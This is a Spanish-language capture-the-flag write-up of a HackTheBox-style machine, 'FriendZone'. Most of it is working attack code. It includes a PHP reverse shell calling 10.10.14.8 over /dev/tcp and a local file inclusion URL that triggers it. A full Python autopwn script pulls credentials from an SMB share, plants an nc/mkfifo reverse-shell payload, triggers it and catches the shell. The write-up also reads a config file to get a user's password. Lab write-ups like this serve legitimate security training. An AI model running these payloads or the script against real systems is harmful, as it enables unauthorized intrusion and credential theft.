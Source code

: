 ## Vuln exploit & Gaining Access {-}

### Ganando accesso con un un LFI {-}

1. Creamos un fichero reverse.php

    ```php
    <?php
        system("bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'");
    ?>
    ```

1. Con smbclient, subimos el fichero

    ```bash
    put reverse.php
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. En el dashboard, intentamos ver si vemos la pagina

    ```bash
    https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=/../../../../../etc/Development/reverse
    ```

Ya hemos ganado acceso al systema.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Creando un autopwn en python {-}

```python
#!/usr/bin/python3

import pdb
import urllib3
import urllib

from smb.SMBHandler import SMBHandler

from pwn import *

def def_handler(sig, frame):

    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "https://administrator1.friendzone.red/login.php"
rce_url = "https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/reverse"
lport = 443

def getCreds():
    opener = urllib.request.build_opener(SMBHandler)
    fh = opener.open('smb://10.10.10.123/general/creds.txt')
    data = fh.read()
    fh.close()

    data = data.decode('utf-8')
    username = re.findall(r'(.*?):', data)[1]
    password = re.findall(r':(.*)', data)[1]

    return username, password

def makeRequest(username, password):

    urllib3.disable_warnings()

    s = requests.session()
    s.verify = False

    data_post = {
        'username': username,
        'password': password
    }

    r = s.post(login_url, data=data_post)

    os.system("mkdir /mnt/montura")
    os.system('mount -t cifs //10.10.10.123/Development /mnt/montura -o username="null",password="null",domain="WORKGROUP",rw')
    time.sleep(2)
    os.system("echo \"<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f'); ?>\" > /mnt/montura/reverse.php")
    os.system("umount /mnt/montura")
    time.sleep(2)
    os.system("rm -r /mnt/montura")

    r = s.get(rce_url)

if __name__ == '__main__':

    username, password = getCreds()

    try:
        threading.Thread(target=makeRequest, args=(username, password)).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    shell.interactive()
```

### Userpivoting {-}

```bash
grep "sh$" /etc/passwd
pwd
ls -l
cat mysql_data.conf
```

Vemos la contraseña del usuario friend y nos podemos convertir con el comando `su friend` y leer la flag.
